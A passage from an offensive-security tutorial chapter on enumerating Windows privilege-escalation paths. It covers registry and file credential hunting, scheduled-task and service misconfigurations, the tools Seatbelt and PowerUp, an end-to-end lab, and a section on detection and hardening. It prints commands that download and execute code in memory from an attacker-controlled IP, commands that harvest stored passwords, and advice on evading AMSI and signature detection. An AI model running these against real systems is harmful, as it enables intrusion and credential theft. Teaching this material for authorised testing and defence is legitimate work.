:: VNC, PuTTY sessions, SNMP, etc.
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" /s
reg query "HKLM\SYSTEM\CurrentControlSet\Services\SNMP" /s

:: Search the whole registry for the word 'password'
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

`Winlogon\DefaultPassword` set means **autologon** is configured and the password is sitting there in plaintext — copy it and try it against the admin account or reuse it elsewhere (**T1552.002 Credentials in Registry**). The `reg query ... /f password /s` search is noisy but frequently turns up an application config credential.



---

## Part 8: Enumeration Surface #4 — Scheduled Tasks, Startup Folders, and Autoruns

Scheduled tasks are a favourite because they run on a timer or trigger, often as SYSTEM or an admin, and their target script/binary is sometimes writable.

```cmd
:: List all tasks in verbose CSV — huge but grep-able
schtasks /query /fo LIST /v

:: Just the useful columns via PowerShell
```
```powershell
Get-ScheduledTask | ForEach-Object {
  [pscustomobject]@{
    Name   = $_.TaskName
    Path   = $_.TaskPath
    RunAs  = $_.Principal.UserId
    Action = ($_.Actions.Execute -join ';')
    Args   = ($_.Actions.Arguments -join ';')
  }
} | Where-Object { $_.RunAs -match 'SYSTEM|Administrator' } | Format-Table -Auto
```

For each task that runs as SYSTEM/Administrator, note the `Execute` path and check whether you can write to it or to the arguments' target script:

```cmd
accesschk.exe -accepteula -quvw "C:\Scripts\backup.ps1"
icacls "C:\Scripts\backup.ps1"
```

A world-writable script run by a SYSTEM scheduled task is a clean, reliable escalation — you edit the script, wait for the trigger (or the interval), and inherit SYSTEM. **This is the Windows analogue of the writable-cron-job escalation from Chapter 3 on Linux** — same idea, different scheduler.

Also check the **Startup folders**, whose contents run at logon:

```cmd
dir "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
dir "C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
icacls "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"
```

If the all-users Startup folder is writable by your account, drop a payload there and it runs at the next admin logon.

**Blue team relevance.** New scheduled tasks generate **Event ID 4698 (task created)** in the Security log and Microsoft-Windows-TaskScheduler operational logs; task *modification* is 4702. Monitoring these, plus file-integrity monitoring on script directories referenced by SYSTEM tasks, catches this whole surface (**T1053.005 Scheduled Task**).

---

## Part 9: Enumeration Surface #5 — Hunting Stored Credentials Everywhere

Windows leaks credentials in an astonishing number of places. Because credential reuse is the quietest possible escalation (you just log in as the higher-priv user — no exploit, no crash, minimal telemetry), searching for stored secrets is often more productive than any technical bug. Enumerate systematically.

### Unattended-install and provisioning files

Automated Windows deployments leave answer files that frequently contain a base64-encoded local admin password:

```cmd
dir /s /b C:\unattend.xml C:\Windows\Panther\Unattend.xml ^
    C:\Windows\Panther\Unattended.xml C:\Windows\System32\Sysprep\unattend.xml ^
    C:\Windows\System32\Sysprep\sysprep.xml
type C:\Windows\Panther\Unattend.xml | findstr /i "password"
```

The `<Password><Value>...</Value></Password>` field is base64; decode it and you often have a working local admin credential (**T1552.001 Credentials in Files**).

### Group Policy Preferences (GPP) — cpassword

On domain-joined boxes, cached Group Policy Preferences XML in SYSVOL can contain a `cpassword` attribute encrypted with a **publicly known AES key** (MS14-025) — trivially decryptable:

```cmd
findstr /S /I cpassword %LOGONSERVER%\sysvol\*.xml
dir /s /b \\%USERDNSDOMAIN%\sysvol\*.xml
```

Decrypt any `cpassword` you find with `gpp-decrypt` on Kali. This yields the account the GPP was managing — historically a local admin on many machines at once.

### Config files, scripts, and history

```cmd
:: Recursively search common web/app config for secrets
findstr /si password *.xml *.ini *.txt *.config *.ps1 *.bat *.yml *.json 2>nul
:: Web app configs
type C:\inetpub\wwwroot\web.config | findstr /i "connectionString password"
```
```powershell
# PowerShell command history — users paste passwords into it constantly
Get-Content (Get-PSReadlineOption).HistorySavePath
# default: %APPDATA%\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

### Saved credentials, Credential Manager, and DPAPI

```cmd
:: Windows Credential Manager — stored creds usable for runas
cmdkey /list
```

If `cmdkey /list` shows stored credentials (e.g. `Target: Domain:interactive=ADMIN\...`), you may be able to run a process as that user without knowing the password:

```cmd
runas /savecred /user:ADMIN\Administrator "cmd.exe /c whoami > C:\Windows\Temp\p.txt"
```

Deeper harvesting (DPAPI master keys, browser-saved passwords, WiFi PSKs via `netsh wlan show profile ... key=clear`, saved RDP `.rdp`/`cmdkey` creds, KeePass/browser stores) is a large topic — SharpDPAPI and LaZagne automate it. Enumerate the low-hanging fruit here; escalate to those tools when the quick wins are dry.



**LaZagne (tool from scratch, briefly).** LaZagne is an open-source credential-recovery tool that pulls saved passwords from dozens of applications (browsers, mail clients, sysadmin tools, WiFi, etc.) in one pass: `lazagne.exe all`. It is heavily AV-flagged (**T1555 Credentials from Password Stores**), so treat it as a targeted follow-up, not a first move.

---

## Part 10: Automated Enumeration Tool #2 — Seatbelt (from scratch)

**What it is.** Seatbelt is a C#/.NET **host survey** tool from the GhostPack suite (the same family as Rubeus, SharpUp, and SharpHound). Where WinPEAS shouts "here's what's exploitable," Seatbelt is a broader, cleaner **situational-awareness collector**: OS and security posture, AV/AppLocker/WDAC config, PowerShell logging settings, network config, browser history, credential-store locations, and — with its privesc-focused checks — the same service/registry issues WinPEAS finds. It is organised into named **command groups** you can run individually, which makes it precise and comparatively quiet.

**Why use it alongside WinPEAS.** Three reasons. First, cross-validation — if both tools flag the same weak service, your confidence is high. Second, Seatbelt surfaces *defensive* posture (is Sysmon installed? is script-block logging on? is AMSI present?) that tells a red-teamer how loud they can be. Third, it runs cleanly in-memory via a .NET loader for fileless operation (Part 12).

**Obtain / build.** GhostPack ships source; you compile `Seatbelt.exe` in Visual Studio (or grab a prebuilt release). Transfer like any binary.

**Core usage.** The syntax is `Seatbelt.exe [group|command] [-full] [-q] [-outputfile=...]`:

| Invocation | What it does |
|---|---|
| `Seatbelt.exe -group=all` | Run every check (verbose — pipe to a file) |
| `Seatbelt.exe -group=user` | User-context checks (tokens, env, history, saved creds) |
| `Seatbelt.exe -group=system` | System checks (services, patches, AV, AppLocker, UAC) |
| `Seatbelt.exe -group=remote` | Info useful for lateral movement |
| `Seatbelt.exe -group=misc` | Grab-bag incl. interesting files |
| `Seatbelt.exe TokenPrivileges` | Just the token-privilege check |
| `Seatbelt.exe WindowsAutoLogon` | Just autologon creds |
| `Seatbelt.exe -full` | Don't truncate long results |
| `Seatbelt.exe -q` | Suppress the ASCII-art banner |
| `Seatbelt.exe "-outputfile=C:\Windows\Temp\sb.txt"` | Write results to a file |

A focused privesc-oriented run:

```cmd
Seatbelt.exe -group=system -q "-outputfile=C:\Windows\Temp\sb.txt"
Seatbelt.exe TokenPrivileges UAC WindowsAutoLogon UserRightAssignments -q
```

Annotated sample output for two high-value checks:

```text
====== TokenPrivileges ======
  Current Token's Privileges
    SeChangeNotifyPrivilege:            SE_PRIVILEGE_ENABLED_BY_DEFAULT
    SeImpersonatePrivilege:             SE_PRIVILEGE_ENABLED            <-- Potato path
    SeCreateGlobalPrivilege:            SE_PRIVILEGE_ENABLED

====== WindowsAutoLogon ======
    DefaultDomainName :  CLIENT
    DefaultUserName   :  Administrator
    DefaultPassword   :  SuperSecret2026!                              <-- plaintext creds
```

That `WindowsAutoLogon` block is the same `Winlogon\DefaultPassword` from Part 7 — Seatbelt parses and prints it for you. **Seatbelt does not exploit anything**; it collects. You still verify and act on the findings using the manual techniques and Chapter 5.

**Detection note.** Seatbelt is GhostPack tooling — well-known to EDR, and its binary is signatured. Its individual checks touch a lot of security-relevant registry keys and WMI classes in a short window, which is itself detectable. Running only specific command groups (rather than `-group=all`) reduces the footprint. Defensively, Seatbelt's own output tells you what a defender sees: if it reports "PowerShell ScriptBlock logging: Enabled" and "Sysmon: Installed," assume everything you do next is logged.

---

## Part 11: Automated Enumeration Tool #3 — PowerUp, SharpUp, PrivescCheck, JAWS

WinPEAS and Seatbelt are the workhorses, but four more tools each earn a place. Knowing several matters because AV blocks different ones on different boxes, and each has a slightly different check set.

### PowerUp (PowerShell) — from scratch

**What it is.** `PowerUp.ps1` is a PowerShell script from the PowerSploit project dedicated entirely to **local privilege-escalation checks** on Windows. Its signature function, `Invoke-AllChecks`, runs every check at once and prints an `AbuseFunction` for each finding — telling you not just *what* is wrong but *how* to abuse it (some of which it can do for you). It is script-based, so it runs where you can execute PowerShell but cannot drop an EXE.

**Load and run.** Import the module then invoke:

```powershell
# In-memory download+execute (fileless-ish; AMSI permitting)
IEX (New-Object Net.WebClient).DownloadString('http://10.10.14.7:8000/PowerUp.ps1')
Invoke-AllChecks

# Or from disk
Import-Module .\PowerUp.ps1
Invoke-AllChecks | Out-File -Encoding ascii C:\Windows\Temp\powerup.txt
```

Annotated output:

```text
[*] Checking for unquoted service paths...
ServiceName    : unquotedsvc
Path           : C:\Program Files\Unquoted Path Service\common files\svc.exe
ModifiablePath : @{ModifiablePath=C:\; IdentityReference=BUILTIN\Users; ...}
StartName      : LocalSystem
AbuseFunction  : Write-ServiceBinary -Name 'unquotedsvc' -Path <HijackPath>   <-- how to abuse

[*] Checking service executable and argument permissions...
ServiceName   : filepermsvc
ModifiablePath : C:\Temp\file.exe
AbuseFunction : Install-ServiceBinary -Name 'filepermsvc'

[*] Checking for AlwaysInstallElevated registry key...
AbuseFunction : Write-UserAddMSI
```

Each `AbuseFunction` is your Chapter-5 lead spelled out. **AMSI note:** modern Windows scans PowerShell content as it loads; unmodified `PowerUp.ps1` is flagged by AMSI/Defender and will be blocked on many boxes. You either bypass AMSI, use an obfuscated copy, or fall back to a compiled tool — which is exactly what SharpUp is for.

### SharpUp (C#) — from scratch

**What it is.** SharpUp is the GhostPack C# port of PowerUp's checks — a compiled `.exe` that performs the same privesc checks without touching PowerShell/AMSI. Use it when PowerShell is locked down or logged.

```cmd
SharpUp.exe audit          :: run all checks
SharpUp.exe                :: default (only "vulnerable" findings)
```
```text
=== SharpUp: Running Privilege Escalation Checks ===
[*] Modifiable Service Binaries
    Name             : VulnSvc
    Path             : C:\Temp\service.exe
    StartName        : LocalSystem
    CanRestart       : True                 <-- you can trigger it too
[*] AlwaysInstallElevated Registry Keys
    HKLM AlwaysInstallElevated: 1
    HKCU AlwaysInstallElevated: 1
```

`CanRestart: True` next to a modifiable service binary is the complete recipe — replace binary, restart service, SYSTEM.

### PrivescCheck (PowerShell) — from scratch

**What it is.** `PrivescCheck.ps1` is a modern, actively-maintained PowerShell privesc enumerator designed to be *quieter and AMSI-friendlier* than PowerUp, with clearer risk ratings and an extended check set (including services, scheduled tasks, credential files, hijackable DLLs, and unattended files). Many operators now prefer it as their PowerShell option.

```powershell
. .\PrivescCheck.ps1
Invoke-PrivescCheck                 # standard
Invoke-PrivescCheck -Extended       # more checks
Invoke-PrivescCheck -Report report -Format HTML,TXT   # write a report
```

It prints a coloured, severity-rated table (High/Medium/Low/Info) with a short description and the affected object for each finding — arguably the most readable output of any tool here.

### JAWS (PowerShell) — from scratch

**What it is.** JAWS ("Just Another Windows (Enum) Script") is a lightweight `PowerShell 2.0-compatible` enumeration script — valuable on old boxes where newer tools fail. It is less exploit-aware than PowerUp but runs almost anywhere.

```powershell
powershell.exe -ExecutionPolicy Bypass -File .\jaws-enum.ps1 -OutputFilename jaws.txt
```

### Choosing between them



The unifying rule: **automated tools generate leads; you verify every lead manually before exploiting.** Tools produce false positives (a "writable" path that a deny-ACE actually blocks); five minutes with `accesschk` and `icacls` saves you from burning a technique on a phantom.

---

## Part 12: Running Enumeration Quietly — Fileless Execution and AV Reality

Every automated tool above is signatured by Defender and most EDR. If you write `winPEASx64.exe` to disk on a monitored host, it is quarantined before it runs. Enumeration therefore has an operational-security dimension you must plan for.

**Option 1 — Prefer built-ins.** Everything WinPEAS checks can be done with `whoami`, `sc`, `reg query`, `wmic`, `icacls`, `schtasks`, `findstr`, and PowerShell — none of which AV blocks (they are legitimate admin tools). It is slower and you must know the checks, which is exactly why Parts 3–9 taught them by hand. On a heavily-monitored target, the by-hand path is often the *only* one that completes.

**Option 2 — Run compiled tools in memory.** GhostPack tools (Seatbelt, SharpUp) are .NET assemblies that can be loaded and executed without ever touching disk, using an assembly loader. Cobalt Strike's `execute-assembly`, Covenant, or the open-source loaders do this; a minimal PowerShell reflective load looks like:

```powershell
# Load a .NET assembly from bytes in memory and invoke its entry point
$bytes = (New-Object Net.WebClient).DownloadData('http://10.10.14.7:8000/SharpUp.exe')
$asm   = [System.Reflection.Assembly]::Load($bytes)
[SharpUp.Program]::Main(@("audit"))
```

This never writes `SharpUp.exe` to disk — but AMSI still scans the assembly bytes, so on a fully-defended box you may need an AMSI bypass first. Note that the very act of `Assembly.Load` from a downloaded byte array is itself a detection heuristic.

**Option 3 — Obfuscate/recompile.** Recompiling WinPEAS or PowerUp from source with renamed symbols and string encryption defeats static signatures. This is standard practice on red-team engagements but is out of scope for casual lab use.



The takeaway: **choose your enumeration method to match the target's monitoring, not your convenience.** A blue-team-heavy environment rewards the operator who enumerates entirely with living-off-the-land binaries and reads the output themselves.

---

## Part 13: Hands-On Lab — Enumerating a Box End to End

This lab walks a realistic low-privilege foothold through a complete enumeration pass and produces a **prioritized attack plan**. Target: a Windows 10 / Server 2019 VM you own or a THM/HTB box you are authorised on. Attacker: Kali at `10.10.14.7`. You start with a shell as a standard user `svc-web` (Medium integrity, not admin). No exploitation is performed here — that is Chapter 5 — but every finding is verified and ranked.

### Step 0 — Stage tooling on Kali

```bash
# Serve the enum tools from one directory
mkdir -p ~/enum && cd ~/enum
cp /usr/share/peass/winpeas/winPEASx64.exe .
cp /usr/share/windows-resources/accesschk/accesschk64.exe .   # path varies
# (also drop in Seatbelt.exe, PowerUp.ps1, SharpUp.exe as available)
python3 -m http.server 8000
```

### Step 1 — Situational awareness (manual, no tools dropped yet)

```cmd
C:\Users\svc-web> whoami /all
```
```text
User Name  SID
========== =============================================
client\svc-web S-1-5-21-3623811015-3361044348-30300820-1013

Mandatory Label\Medium Mandatory Level   S-1-16-8192
...
PRIVILEGES INFORMATION
----------------------
SeChangeNotifyPrivilege        Bypass traverse checking      Enabled
SeIncreaseWorkingSetPrivilege  Increase a process WS         Disabled
```

Read: Medium integrity, **no** `SeImpersonate`, not in Administrators. So the token-privilege fast path is closed — we must hunt misconfigurations. Grab system facts:

```cmd
C:\Users\svc-web> systeminfo > %TEMP%\si.txt & type %TEMP%\si.txt | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type" /C:"Domain"
OS Name:      Microsoft Windows 10 Pro
OS Version:   10.0.17763 N/A Build 17763
System Type:  x64-based PC
Domain:       WORKGROUP
```

Not domain-joined (so no GPP/SYSVOL creds path). x64, build 17763 — note it for WES-NG later. Copy `si.txt` to Kali and run the offline suggester:

```bash
kali$ wes.py si.txt --exploits-only --impact "Elevation of Privilege" | head -20
# -> flags CVE-2021-36934 (HiveNightmare) among others — hold as last resort
```

### Step 2 — Automated pass (drop WinPEAS)

```powershell
PS C:\Users\svc-web> cd $env:TEMP
PS C:\...\Temp> iwr http://10.10.14.7:8000/winPEASx64.exe -OutFile wp.exe
PS C:\...\Temp> .\wp.exe quiet servicesinfo applicationsinfo filesinfo log=wp.txt
```

Skim the red lines. Suppose WinPEAS highlights:

```text
[Services] filepermsvc  ( C:\Temp\file.exe )
   File Permissions: Users [AllAccess]                 <-- RED
   StartName: LocalSystem
[Registry] AlwaysInstallElevated  HKLM=1  HKCU=1       <-- RED
[Files] C:\inetpub\wwwroot\web.config contains 'password'  <-- interesting
[Tasks] \CleanupTask  runs as SYSTEM  action C:\Scripts\cleanup.ps1
```

Three concrete leads plus a credential lead. Now **verify each one** — do not trust the tool.

### Step 3 — Verify lead A: modifiable service binary

```cmd
C:\...\Temp> sc qc filepermsvc
[SC] QueryServiceConfig SUCCESS
        BINARY_PATH_NAME   : C:\Temp\file.exe
        SERVICE_START_NAME : LocalSystem
C:\...\Temp> icacls C:\Temp\file.exe
C:\Temp\file.exe BUILTIN\Users:(F)                      <-- confirmed: full control
                 NT AUTHORITY\SYSTEM:(F)
C:\...\Temp> accesschk64.exe -accepteula -quvw C:\Temp\file.exe
  RW C:\Temp\file.exe
    FILE_ALL_ACCESS
C:\...\Temp> sc query filepermsvc | findstr STATE      :: can we restart it?
        STATE : 1  STOPPED
C:\...\Temp> accesschk64.exe -accepteula -ucqv svc-web filepermsvc
  RW filepermsvc
    SERVICE_START
    SERVICE_STOP                                        <-- we can start it too
```

**Confirmed, top-tier:** we can overwrite `C:\Temp\file.exe` AND start/stop the SYSTEM service. Reliability: very high, no crash risk. This goes to the top of the plan.

### Step 4 — Verify lead B: AlwaysInstallElevated

```cmd
C:\...\Temp> reg query HKLM\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    AlwaysInstallElevated    REG_DWORD    0x1
C:\...\Temp> reg query HKCU\Software\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
    AlwaysInstallElevated    REG_DWORD    0x1
```

**Confirmed:** both keys `0x1`. A malicious MSI runs as SYSTEM. Reliability: very high. Second on the plan (independent backup to lead A).

### Step 5 — Verify lead C: SYSTEM scheduled task with writable script

```cmd
C:\...\Temp> schtasks /query /tn "\CleanupTask" /fo LIST /v | findstr /i "Run As User Task To Run"
Run As User:  NT AUTHORITY\SYSTEM
Task To Run:  powershell -File C:\Scripts\cleanup.ps1
C:\...\Temp> icacls C:\Scripts\cleanup.ps1
C:\Scripts\cleanup.ps1 BUILTIN\Users:(M)                <-- we can Modify the script
```

**Confirmed:** SYSTEM task runs a script we can edit. Reliability: high, but requires waiting for the trigger. Third on the plan.

### Step 6 — Verify lead D: web.config credential

```cmd
C:\...\Temp> findstr /i "password connectionString" C:\inetpub\wwwroot\web.config
  <add name="db" connectionString="Server=.;Database=app;User Id=appadmin;Password=Wint3r2026!;" />
```

A cleartext DB credential. Try it for reuse (`runas`, or against other services). Reliability: situational — depends on whether `appadmin`/that password is reused for a privileged account.

### Step 7 — Produce the prioritized attack plan



**The deliverable of enumeration is exactly this plan** — an ordered list where each item is a *verified* condition with a known abuse and a reliability rating, cheapest-and-safest first. You now hand this to the exploitation phase (Chapter 5) and work down it until you have SYSTEM. Notice we never touched the kernel exploit; four safer paths existed, which is the normal outcome of thorough enumeration.

**Lab cleanup.** Delete the tools you dropped (`del %TEMP%\wp.exe %TEMP%\wp.txt`), and remember that on a real engagement your `iwr`/download and the WinPEAS execution are already in the logs — note them in your engagement journal for the report's "indicators generated" section.

---

## Part 14: Detection & Defense Angle

Everything above is offense; here is the consolidated blue-team view, because you should be able to both find these issues and catch someone exploiting them. Enumeration is the noisiest-but-least-damaging phase, which makes it the best place to *catch* an intrusion before escalation succeeds.

### Detecting the enumeration itself

| Attacker action | Telemetry | ATT&CK |
|---|---|---|
| `whoami /all`, `systeminfo`, `net`, `wmic` from a service account | Sysmon EID 1 (process create) with unusual parent (`w3wp.exe`, `sqlservr.exe`) | T1033, T1082, T1057 |
| WinPEAS / Seatbelt / SharpUp binary written and run | AV/EDR signature hit; Sysmon EID 11 (file create) + EID 1; binary touches many security keys | T1518, T1082 |
| `accesschk * ` enumerating all service ACLs | High-volume service-config queries; Sysmon EID 1 for accesschk | T1007 (Service Discovery) |
| PowerUp/PrivescCheck (`Invoke-AllChecks`) | PowerShell ScriptBlock logging (EID 4104) captures the function names; AMSI detection | T1059.001 |
| `reg query ... /f password /s`, `findstr /si password` | Registry-read volume; process-create for `reg.exe`/`findstr.exe` from odd parents | T1552.001/.002 |
| `certutil`/`iwr` pulling a tool from an IP | Sysmon EID 1 + network EID 3; proxy/EDR download alert | T1105 |

The strongest single control is **Sysmon with a good config** (SwiftOnSecurity / Olaf Hartong baseline) plus **PowerShell Script Block Logging and Module Logging** enabled by GPO — together they capture the discovery pattern and the tool names even when the binary is renamed. Seatbelt's own `-group=system` output will tell an attacker whether these are on, which is why defenders should assume competent adversaries check first.

### Fixing the underlying misconfigurations (defense-in-depth)



Concrete hardening checklist a defender can run with the *same tools*:

- **Services:** `accesschk -uwcqv "Authenticated Users" *` and `accesschk -uwcqv "Users" *` on every host — any result is a finding. Quote every service path; ensure service binaries and their directories are writable only by admins/SYSTEM.
- **AlwaysInstallElevated:** confirm both keys are `0` or absent via GPO; there is almost never a legitimate reason to enable it.
- **Autologon:** never store `DefaultPassword` in cleartext; use the LSA Secrets-backed `AutoLogonSID` mechanism or, better, don't autologon.
- **Credential hygiene:** delete `unattend.xml`/`sysprep.xml` after imaging; remediate GPP `cpassword` (KB2962486); keep secrets out of `web.config`/scripts (use a vault/managed identity).
- **Token privileges:** audit `SeImpersonatePrivilege`, `SeAssignPrimaryTokenPrivilege`, `SeDebugPrivilege`, `SeBackup/Restore` assignments via `Get-CimInstance`/`secpol.msc`; remove from accounts that don't need them. Note SeImpersonate is *required* by IIS/MSSQL service accounts, so the compensating control there is monitoring, not removal.
- **Patch:** monthly cumulative updates eliminate the kernel-LPE surface entirely.

**IR use case.** If you are investigating a suspected compromise, the artefacts this chapter generates are your timeline: an EID 7045 service install, a 4698 task creation, an AV hit on `winPEASx64.exe`, and a burst of `reg query`/`accesschk` process-creates from a service account together paint "attacker landed, enumerated, and is about to escalate." Catching it at *this* stage, before the Chapter-5 exploit fires, is the whole value of monitoring enumeration.

---

## Part 15: Final Revision / Summary

- **Enumeration is 90% of Windows privesc.** You are converting a low-priv foothold into a ranked list of *verified* misconfigurations, cheapest-and-safest first, and only then exploiting (Chapter 5).
- **Understand the model before reading output:** SIDs, access tokens (primary vs impersonation), integrity levels + UAC (Medium vs High), and privileges. `SeImpersonate`, `SeBackup`, `SeRestore`, `SeDebug`, `SeTakeOwnership`, `SeLoadDriver` are effectively SYSTEM if enabled.
- **First five minutes, by hand:** `whoami /all` (read the privilege block first), `systeminfo`, `net localgroup administrators`. This decides your path — token fast-path vs UAC bypass vs full misconfig hunt.
- **Automated tools generate leads; you verify every one.** WinPEAS (thorough, colour-coded, AV-flagged) → Seatbelt (survey + defensive posture) → PowerUp/SharpUp/PrivescCheck/JAWS as PowerShell/EXE alternatives. Verify with `accesschk`, `icacls`, `sc qc`, `reg query`, `schtasks`.
- **Five surfaces:** (1) OS/patch → kernel-LPE leads (last resort); (2) service misconfigs — weak ACL, weak binary perms, unquoted path, DLL hijack (the richest vein); (3) registry — AlwaysInstallElevated, autoruns, stored creds; (4) scheduled tasks/startup with writable targets; (5) stored credentials everywhere (unattend.xml, GPP cpassword, web.config, cmdkey, PowerShell history).
- **Reliability tiers:** token abuse and service replacement and AlwaysInstallElevated and plaintext creds are top-tier (no crash risk); kernel exploits are last resort. Enumerate thoroughly precisely so you never need the bottom row.
- **OpSec matters:** match your method to the target's monitoring — built-in LOLBins on heavily-defended hosts, tools only where you can afford the noise.



---

## Part 16: Cheat Sheet / Quick Reference

**Situational awareness**
```cmd
whoami /all              :: SID, groups, integrity, PRIVILEGES (read first)
whoami /priv             :: just privileges
systeminfo               :: OS, build, arch, domain, hotfixes
hostname & echo %USERDOMAIN%
net user %username% & net localgroup administrators
```

**Token privileges of interest**
```text
SeImpersonate / SeAssignPrimaryToken  -> Potato -> SYSTEM
SeBackup / SeRestore                  -> read/write any file (SAM, hives)
SeDebug                               -> open any process (LSASS dump)
SeTakeOwnership                       -> own then rewrite ACL of any object
SeLoadDriver                          -> load malicious driver -> kernel
```

**Services**
```cmd
